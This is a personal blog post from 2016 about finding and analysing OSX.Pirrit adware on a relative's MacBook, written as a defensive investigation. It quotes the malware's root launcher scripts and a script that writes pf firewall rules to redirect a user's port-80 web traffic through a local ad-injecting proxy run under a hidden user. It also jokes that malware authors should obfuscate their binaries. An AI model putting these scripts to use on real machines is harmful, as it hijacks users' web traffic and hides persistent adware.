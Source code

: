 ```yaml
---
authors: [dmerej]
slug: "a-nasty-mac-virus"
date: "2016-07-09T15:36:52+02:00"
description: ""
draft: false
title: "A Nasty Mac Virus, or How I Learned To Love the App Store"
tags: ["misc"]
---
```


Some time ago my little sister complained that her MacBook was getting slow,
and had frequent freezes, to the point it was barely usable any more.

She also was seeing many ads when browsing, even though she had an ad blocker
instead.

So I lend her my own laptop while I kept hers to investigate.

Here's what happened next ...

<!--more-->

# Mysterious processes

In order to investigate the freezes, I start `htop`[^1] to have a look
at the processes that are running.

I see a bunch of scripts running (as root), and some other
processes running with weird user names:

```text
root          /bin/sh  /etc/branchiosaurian.sh
instroke      /Library/branchiosaurian/Contents/MacOS/branchiosaurian
```

Googling "branchiosaurian virus MacOS" or "instroke user name" leads to nowhere.

# Strange scripts

The process are running from a strange location: it's rare to see `*.sh` scripts
in `/etc`, usually `/etc` is only used for configuration files.

So I decide to see how many there are in `/etc`:


```text
$ ls /etc/*.sh
/etc/Dicyemida.sh*
/etc/Fulah.sh*
/etc/Gothism.sh*
/etc/audile.sh*
/etc/axogamy.sh*
/etc/bacteriohemolysin.sh*
/etc/branchiosaurian.sh*
/etc/duello.sh*
/etc/entry.sh*
/etc/gallflowerUpd.sh*
/etc/hemodystrophy.sh*
/etc/lichenlike.sh*
/etc/overreach.sh*
/etc/retinene.sh*
/etc/run_upd.sh*
/etc/sidereally.sh*
/etc/tealess.sh*
/etc/thiocyanide.sh*
/etc/unwittingly.sh
```

All the scripts look the same, only the weird names
for the process and the user are different:

```bash
if [ -a /Library/branchiosaurian/Contents/MacOS/branchiosaurian ];
then
  sleep 10
  sudo pfctl -evf /etc/branchiosaurian.conf
  sudo -u Benjy /Library/branchiosaurian/Contents/MacOS/branchiosaurian
fi
exit 0
```

Each of them has a matching folder in `/Library/<name>`

`/Library/<name>/Contents/MacOS/<name>` is a Mach-O C++ executable, with
dependencies on Qt4 frameworks stuff (`Qt4Core`, `QtGui` and `QtNetwork`)
in `Contents/Frameworks`, like any `Qt` application.

(Except they are in `/Library` and not `/Applications` ...)


There's also a script in `Contents/MacOS/rec_script.sh` which contains:

```bash
# set redirections
HIDDEN_USER=$(sudo defaults read /Library/Preferences/com.common.plist user_id)
echo $HIDDEN_USER

activeInterface=$(route get default | sed -n -e 's/^.*interface: //p')
if [ -n "$activeInterface" ]; then
    pfData="rdr pass inet proto tcp from $activeInterface to any port 80 -> 127.0.0.1 port 9882\n\
    pass out on $activeInterface route-to lo0  inet proto tcp from $activeInterface to any port 80 keep state\n\
    pass out proto tcp all user "$HIDDEN_USER"\n"
    echo "$pfData" > /etc/pf_proxy.conf
else
    echo "Unable to find active interface"
    exit 1
fi

exit 0
```

And a configuration file in `/etc`

```text
$ cat /etc/branchiosaurian.conf
rdr pass inet proto tcp from en1 to any port 80 -> 127.0.0.1 port 9882
pass out on en1 route-to lo0  inet proto tcp from en1 to any port 80 keep state
pass out proto tcp all user indianaite
```


Finally, a `ps aux` shows a `pfctl` processes running like this:

```text
pfctl -evf /et/<name>.conf
```


So there are a bunch of processes doing something with the network, re-rooting
traffic going through the `80` port to somewhere else. This can't be good ...


# First clue

Confused, I run the only thing I can think of:

```text
$ strings /Library/branchiosaurian/Contents/MacOS/branchiosaurian
...
AdsProxyEngine
userDisabledProxy()
...
```

Ahah! Googling `virus mac AdsProxyEngine` leads to reddit thread:
*[Ever heard of the process uncontainable?](
https://www.reddit.com/r/apple/comments/4g4pup/ever_heard_of_the_process_uncontainable/)*

There's a confused Mac user who is seeing processes with weird names too:
(Here, a `uncontainable` process is running as the `razoredge` user)

# Following the links

Reading the thread leads to the following pages, which explain everything:

* [Analysis of an Intrusive Cross-Platform Adware: OSX/Pirrit](
https://objective-see.com/blog/blog_0x0E.html)

* [Cybereason Labs Analysis: The Minds Behind the OSX.Pirrit Malicious Adware](
  http://www.cybereason.com/cybereason-labs-analysis-the-minds-behind-the-osx-pirrit/)

Here's a quick summary:

1. The virus is known as "OSX.Pirrit": it started as a Windows
   program, and then ported to Mac.

2. The virus installs a program well hidden which intercepts traffic to external
   websites in order to insert ads. That's what causes the freezes, and the fact
   that AdBlock does not seem to work. It's called an "adware" (a portmanteau
   word from "ads" and "software")

3. Fortunately for us, one of the programmers made the mistake of packaging the
   software on its own machine using `tar`, which records the user name and the
   date. That's how the researchers from Cybereason were able to find woh's
   behind the adware: a guy working for TargetingEdge, a "online marketing"
   company.

4. Quoting the article from Cybereason:

> The adware's creators removed the original installers for MPlayerX, NicePlayer
> and VLC, legitimate media players that people can easily download, and replaced
> them with an installer that has OSX.Pirrit as well as the media player.


I knew that my sister had installed MPlayerX, so I looked around, and even
found a thread where someone says that the MPlayerX author himself was offering
the adware bundled with the installer on his web site.
(It's a rumour, no way for me to check if this is true ...)

# Lessons learned

* You can create hidden users on mac (it only takes a few tricks with the
  preferences of the login window)

* You can use `dscl` to display user names (`/etc/passwd` won't help):

```text
$ dscl . -list /Users UniqueID
```

  By the way, that's how you can check whether you are infected with this virus
  or not: the names change, but the user numeric ID is hard-coded and is always
  401 ...

* Using random names from `/usr/share/dict/words` to name things makes it really
  hard to find clues using a search engine. (And this file is guaranteed to
  exist on any Mac version!)

* If you create a malware, take the time to strip the executable and obfuscate
  the source code&nbsp;;)

* Also, don't package it on your own machine with your regular account!

* Even if MPlayerX is free, you can buy it from the Apple Store for less than
  2 euros, and it's much safer: you know that Apple has audited the software,
  it's signed, so you know where it comes from, and you don't even have to open
  a web browser and risk downloading stuff from the wrong place.
  (Note that you still have to trust Apple ...)

* If you can't accept the fact that you're gonna have to pay even if you use
  free or open-source stuff on Mac, well, switch to Linux :) There's a great
  article explaining why this kind of nasty stuff can't happen if you use the
  packages provided by your distribution: *[Why Maintainers Matter](
  http://kmkeen.com/maintainers-matter/)*

# Next steps

First, I'm going to reformat and re-install the operating system using
[DiskMaker X](http://diskmakerx.com/), but I don't really know what to tell my
sister so this does not happen again.

Don't tell me to install an antivirus, I know [it won't work](
http://www.ranum.com/security/computer_security/editorials/dumb/).

People tell me there's a GUI from `homebrew`, I'll try that, but if you have
some ideas, (besides only using the Apple Store for now), I'd love to
[hear from you]({{< ref "/pages/contact.md" >}}) ;)

There's also the option of only allowing apps from the AppStore
(not even those which are signed with a developer key)


[^1]: Yup, `htop` works really well on Mac too since the 2.0 version. You can learn more about this here: *[How htop Was Made Portable](https://www.youtube.com/watch?v=g5GamptmWeA)*
